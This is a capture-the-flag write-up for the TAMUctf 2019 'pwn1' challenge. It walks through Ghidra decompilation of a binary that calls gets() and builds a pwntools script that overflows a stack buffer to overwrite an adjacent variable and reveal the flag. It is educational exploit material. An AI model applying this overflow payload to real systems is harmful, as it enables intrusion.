

# Pwn1 - TAMUctf 2019
Category: Pwn, Difficulty: easy

## Description



And attached file [pwn1](pwn1)

## Pwn1 Solution
Let's take a look at the binary:

```console
┌─[evyatar@parrot]─[/media/shared/ctf/TAMUctf/pwn1]
└──╼ $./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
test
I don't know that! Auuuuuuuugh!
```

Let's look at the ```main``` function using ```Ghidra```:
```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(undefined param_1)

{
  int iVar1;
  char local_43 [43];
  int local_18;
  undefined4 local_14;
  undefined1 *local_10;
  
  local_10 = &param_1;
  setvbuf(stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(local_43,0x2b,stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,0x2b,stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

So we can see the user input buffer ```char local_43 [43];```.

The program ask for user input and compare it using:
```c
...
puts("What... is your name?");
fgets(local_43,0x2b,stdin);
iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
if (iVar1 != 0) {
  puts("I don\'t know that! Auuuuuuuugh!");
                  /* WARNING: Subroutine does not return */
  exit(0);
}
puts("What... is your quest?");
fgets(local_43,0x2b,stdin);
iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
if (iVar1 != 0) {
  puts("I don\'t know that! Auuuuuuuugh!");
                  /* WARNING: Subroutine does not return */
  exit(0);
}
...
```

It's mean, We need to insert the following strings ```Sir Lancelot of Camelot``` , ```To seek the Holy Grail.``` and then we need to the secret:
```c
puts("What... is my secret?");
gets(local_43);
if (local_18 == -0x215eef38) {
  print_flag();
}
else {
  puts("I don\'t know that! Auuuuuuuugh!");
}
```

So we can see the function ```gets(local_43)```.

The function ```gets``` will scan in data until it either gets a newline character.

As a result on paper there is no limit to how much it can scan into memory, Since the are it is scanning into is finite, we will be able to overflow it and start overwriting subsequent things in memory.

We can see the following ```if``` statment after ```gets``` called:
```c
if (local_18 == -0x215eef38) {
    print_flag();
  }
```

So If we can overflow using ```gets``` we can overflow the value of ```local_18``` which located right after ```local_43```:
```c
char local_43 [43];
int local_18;
```

So It's mean our payload should contains ```"A"*43``` to fill ```local_43``` buffer and then we need 4 bytes to write into ```local_18```.

So If we look at the instruction of ```if``` statement using Ghidra we can see:
```
        000108b2 81  7d  f0       CMP        dword ptr [EBP  + local_18 ], 0xdea110c8
```

It's mean ```local_18``` should contains ```0xdea110c8```, So let's write simple python code using ```pwntoold``` to solve it:
```python
from pwn import *

payload = 'A'*43 + '\xc8\x10\xa1\xde\n' # "A" times 43 to local_43 buffer, write 4 bytes 0xdea110c8 to local_18
p = process('./pwn1')

print(p.recv().decode('utf-8'))
p.send('Sir Lancelot of Camelot\n')
print('Sir Lancelot of Camelot')

print(p.recv().decode('utf-8'))
p.send('To seek the Holy Grail.\n')
print('To seek the Holy Grail.')


print(p.recv().decode('utf-8'))
p.send(payload)
print('Sending payload...')

print(p.recv().decode('utf-8'))
```

Run it:
```console
┌─[evyatar@parrot]─[/media/shared/ctf/TAMUctf/pwn1]
└──╼ $python3 pwn1solve.py
[+] Starting local process './pwn1': pid 1983
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?

Sir Lancelot of Camelot
What... is your quest?

To seek the Holy Grail.
What... is my secret?

Sending payload...
Right. Off you go.
```

Great, we can get the flag, Le't do it against the server (Replace on script ```p = process('./pwn1')``` to ```p = remote('pwn.tamuctf.com', 4321)``` and run it:
```console
┌─[evyatar@parrot]─[/media/shared/ctf/TAMUctf/pwn1]
└──╼ $python3 pwn1solve.py
[+] Starting local process './pwn1': pid 1983
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?

Sir Lancelot of Camelot
What... is your quest?

To seek the Holy Grail.
What... is my secret?

Sending payload...
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}
```
